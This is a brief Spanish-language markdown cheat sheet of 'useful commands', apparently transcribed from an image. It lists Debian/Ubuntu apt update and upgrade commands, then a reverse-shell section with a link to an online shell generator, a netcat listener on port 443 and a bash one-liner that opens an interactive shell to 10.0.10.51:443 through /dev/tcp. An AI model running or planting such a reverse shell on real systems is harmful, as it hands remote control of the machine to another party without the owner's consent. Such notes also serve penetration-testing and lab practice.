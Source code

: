 ```yaml
---
## Comandos útiles
---
```



## Actualización del sistema (Debian/Ubuntu)

```bash
apt update
apt upgrade -y
apt autoremove
apt dist-upgrade
reboot
```

---

## Reverse Shells

- Generador online: [https://www.revshells.com/](https://www.revshells.com/)

### Escuchar conexiones entrantes con Netcat

```bash
nc -nlvp 443
```

### Reverse shell básica en bash

```bash
sh -i >& /dev/tcp/10.0.10.51/443 0>&1
```